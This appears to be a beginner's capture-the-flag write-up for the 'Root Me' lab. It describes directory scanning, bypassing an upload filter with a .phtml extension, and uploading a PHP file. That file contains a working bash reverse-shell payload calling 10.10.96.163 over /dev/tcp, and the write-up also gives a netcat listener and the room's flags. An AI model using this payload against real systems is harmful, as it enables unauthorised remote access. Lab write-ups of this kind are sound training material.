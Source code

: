 
---
# CTF Write-up: {Root Me}
**Event:** Root me   
**Description:** A ctf for beginners, can you root me?
**Difficulty:** {Easy/~~Medium~~/~~Hard~~}  
**Date:** 29th August, 2025

## TL;DR
- GoBuster almost cleared the path and gave all the directories after that exploiting and getting access was a part that took some time.
- Used a Reverse shell php and it had a file upload vulnerability.

## Recon
- Started with the Zenmap intense scan of the given IP to answer some questions of the ctf.
- Used Go buster to find hidden directories and found some of them which were useful and the main directory which helped the most to exploit was /panel/.

## Exploit Path
1. I was only able to upload the files which were in bytes and which didnt had the extension as php.
2. Used a Reverse Shell PHP where at first I was using the exploit of pentest monkey but the file size was getting bigger so i used chatgpt to make the exploit code smaller and that worked for me.
3. For the problem of php extension not being uploaded, I saw that we can use similar extensions like php2, php3, php4 and so on, but I have used phtml and uploaded the file by editing the ip and port number, I added my IP and the port 2222.

## Key Commands / Payloads
```
# commands or payloads used
Commands :
gobuster dir -u <IP> -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
netcat -lvnp 2222
Payload : 
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.96.163/1234 0>&1'");
?>
```

## Flag
- THM{y0u_g0t_a_sh3ll}
- THM{pr1v1l3g3_3sc4l4t10n}

## Lessons Learned
- We can use gtfobins.github.io to search for codes like getting permission for SUID using the shell for languages like python and its really useful. 